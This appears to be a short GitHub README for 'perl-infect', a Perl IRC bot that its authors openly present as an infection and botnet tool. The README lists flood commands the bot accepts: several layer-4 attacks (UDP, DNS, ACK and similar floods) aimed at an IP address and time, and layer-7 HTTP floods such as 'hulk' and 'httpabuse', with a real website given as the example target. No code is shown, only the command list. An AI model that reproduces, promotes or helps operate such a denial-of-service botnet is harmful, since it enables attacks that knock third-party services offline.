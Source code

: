 # perl-infect
perl infect for irc bots, powered by inocentinho @ pryzraky

## layer4 commands:

!udp ip | !stopudp 

!std ip port time | !stopstd 

!rand ip time | !stoprand 

!dns ip time | !stopdns 

!ack ip time | !stopack 

!ufo ip time | !stopufo



## layer7 commands:

!sadattack http://wwww.google.com.br | !stopsad 

!hulk http://www.google.com.br | !stophulk 

!gold http://www.google.com.br | !stopgold 

!httpabuse http://www.google.com.br | !stopabuse 
